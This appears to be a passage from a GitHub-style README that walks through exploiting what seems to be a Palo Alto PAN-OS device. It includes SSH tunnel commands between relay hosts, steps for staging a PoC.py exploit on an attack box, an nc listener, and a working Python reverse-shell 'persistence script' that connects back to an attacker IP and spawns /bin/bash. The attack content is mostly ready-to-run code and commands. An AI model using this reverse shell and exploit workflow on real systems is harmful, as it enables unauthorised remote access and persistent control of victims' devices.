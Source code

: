 
#### Djibouti (102.214.90.X)

```bash
ssh -p 5555 localhost   # connect back to Terran
```

#### Terran (104.55.222.X)

```bash
ssh -p 4444 localhost   # tunnel to Djibouti
```

### Exploit Setup:

1. Create a new folder on your `attack box`
   - This will stage all of the required files and scripts.
2. Open a text editor (nano) on the attack machine. `sudo nano PoC.py`
3. Copy PoC.py from your host and paste into VM into the text editor
   - best case of doing this is utilizing `ClickPaste`
4. Press `ctrl+O` and then enter to write out the file, then press `ctrl+S` to save, then press `ctrl+X` to exit the program
5. `chmod +x PoC.py`

### Persistence Script Setup:

1. Perform the following command: `nano pan_os_comm.py`
2. In nano, copy and paste the below script: **NOTE- BE SURE TO CHANGE THE IP ADDRESS AND PORT IN THE "s.connect(("10.10.100.169", 63842))" LINE TO MATCH THE IP ADDRESS OF YOUR ATTACK MACHINE AND A RANDOM HIGH PORT OF YOUR CHOICE- end note :)** Please remember the random high port you choose as you will have to recall it for use in setting up your initial listener and throwing the export.

#### (ATTACKER MACHINE)

```bash
nc -lvnp 63842
```

```python
#!/usr/bin/env python3

import socket
import subprocess
import os
import pty
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.100.169", 63842))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
pty.spawn("/bin/bash")

```

3. Once created, run the following command: `chmod +x pan_os_comm.py`
